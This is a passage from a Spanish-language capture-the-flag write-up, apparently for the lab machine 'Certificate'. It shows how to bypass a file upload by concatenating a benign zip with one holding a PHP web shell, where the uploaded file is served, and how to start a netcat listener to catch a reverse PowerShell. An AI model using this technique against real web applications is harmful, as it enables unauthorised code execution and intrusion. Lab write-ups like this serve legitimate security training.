 Crearemos otro comprimido que contenga nuestro archivo malicioso

~~~ bash
zip -r 2.zip evil        
  adding: evil/ (stored 0%)
  adding: evil/shell.php (deflated 60%)
~~~

Ahora concatenaremos los dos comprimidos para generar un tercero, en mi caso lo he llamado `evil.zip`

~~~ bash
cat 1.zip 2.zip > evil.zip
~~~

A la hora de subir el comprimido, se generará un enlace que podemos visitar, el cual nos lleva a nuestro archivo PDF, que podría lucir más o menos así

~~~ http
http://certificate.htb/static/uploads/c8a2599725bd1085a06529f991aafce9/my_document.pdf
~~~

Antes de ejecutar la reverse shell, iniciaremos un listener con `netcat` para recibir una consola de `powershell` por un puerto determinado. En mi caso he escogido el puerto `443`

~~~ bash
rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
~~~

Si visitamos el enlace generado, visualizaremos nuestro archivo PDF

![image-center](/assets/images/posts/certificate-zip-file-concatenation-3.png)
{: .align-center}
